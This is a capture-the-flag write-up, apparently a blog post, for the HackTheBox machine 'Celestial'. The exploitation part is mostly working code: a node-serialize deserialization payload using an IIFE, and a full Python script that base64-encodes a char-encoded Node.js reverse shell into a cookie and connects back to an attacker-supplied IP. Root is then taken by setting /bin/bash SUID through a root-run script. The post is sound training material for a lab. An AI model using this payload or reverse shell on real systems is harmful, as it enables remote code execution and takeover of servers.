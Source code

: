```yaml
---
title: HackTheBox - Celestial
categories: htb node IIFE
excerpt: | 
   Celestial is a medium difficulty Linux machine. It is a node service.

feature_text: |
  ## Celestial - Medium
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```


### Scanning process
sudo nmap -p- --open -sCV -n -Pn \<ip\> -oN targeted:
``` python 
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
```
Celestial is a medium difficulty Linux machine. It is a node.js service, which use a cookie to show a message. The server will get the value of cookie and maybe _deserialize_ it. 

What's Serialization?
>**Serialization** is the process of converting a data object -normally a combination of code and data within a region of data storage- into a series of bytes that saves the states of the object in a easily transmitable form.

What's Deserialization?
>**Deserialization** is the process of reconstructing a data structure or object from a series of bytes.

We have a message that it's sent over the request. So, probabily data is sent serialized, and there is a vulnerability in the process of deserialization on the server side. This is an example of server side.
``` python
var express = require('express');
var cookieParser = require('cookie-parser');
var escape = require('escape-html');
var serialize = require('node-serialize');
var app = express();
app.use(cookieParser())
 
app.get('/', function(req, res) {
 if (req.cookies.profile) {
   var str = new Buffer(req.cookies.profile, 'base64').toString();
   var obj = serialize.unserialize(str);
   if (obj.username) {
     res.send("Hello " + escape(obj.username));
   }
 } else {
     res.cookie('profile', "eyJ1c2VybmFtZSI6ImFqaW4iLCJjb3VudHJ5IjoiaW5kaWEiLCJjaXR5IjoiYmFuZ2Fsb3JlIn0=", {
       maxAge: 900000,
       httpOnly: true
     });
 }
 res.send("Hello World");
});
app.listen(3000);
```
As we can see there is a cookie encoded in base64 that is deserializated in the **unserialize** function. If we can modify the normal fluent of this function we can get a RCE.

### Exploit vulnerabilities
Data in unserialize function can be execute firstly if we use javascript's **Inmediatly Invoce Function Expression (IIFE)** for calling the function. Adding the IIFE brackets **()** after the function body, this one will be invoked after the object is created. An example of data sent could be:

``` python
{"username":"Mayo123","country":"Idk","city":"Lametown","num":"2","rce":"function(){require('child_process').exec('ls /', function(error, stdout, stderr) {console.log(stdout)}); }()"}
```

If you use this script you will get an interactive console on `nc -lnvp 444`:
``` python
import requests, signal, pdb, time, sys, base64
  
# VARIABLE GLOBAL
main_url = 'http://10.10.10.85:3000'

def handler(signum, frame):
    print("\n\n[!] Saliendo del programa.")
    sys.exit( -1 )

signal.signal(signal.SIGINT, handler)

def charencode(string):
    encoded = ''
    for char in string:
        encoded = encoded + "," + str(ord(char))
    return encoded[1:]

def interactive_mode():
    NODEJS_REV_SHELL='''
    var net = require('net');
    var spawn = require('child_process').spawn;
    HOST="%s";
    PORT="%s";
    TIMEOUT="5000";

    function c(HOST,PORT) {
        var client = new net.Socket();
        client.connect(PORT, HOST, function() {
            var sh = spawn('/bin/sh',[]);
            client.write("Connected!\\n");
            client.pipe(sh.stdin);
            sh.stdout.pipe(client);
            sh.stderr.pipe(client);
            sh.on('exit',function(code,signal){
              client.end("Disconnected!\\n");
            });
        });
        client.on('error', function(e) {
            setTimeout(c(HOST,PORT), TIMEOUT);
        });
    }
    c(HOST,PORT);
    ''' % ('<your_ip>', '444')

    PAYLOAD = charencode(NODEJS_REV_SHELL)
    my_cookie = """{"rce":"_$$ND_FUNC$$_function(){ eval(String.fromCharCode(""" + PAYLOAD + """)) }()"}""" 
    PAYLOAD_B64 = base64.b64encode(my_cookie.encode('utf-8')).decode('ascii')

    cookie_formated = {
        "name": "profile",
        "value": PAYLOAD_B64,
        "domain": "10.10.10.85",
        "path": "/"
    }
    s = requests.Session()
    s.cookies.set(**cookie_formated)
    res = s.get(url=main_url)

if __name__ == "__main__":
    interactive_mode()
```

### Privilege Scalation
This will be easier than the intrusion method. You can see an `script.py` in Documents directory. It is a proof of some schedule task, so we can do a procmon --like we did in [Meta](https://amayoo0.github.io/htb/procmon/2022/06/12/Meta/)-- and see that there is an script, which owner is sun, executed by root. Edit it to set `/bin/bash` SUID privilege and execute `ash -p`.

 And that's all!
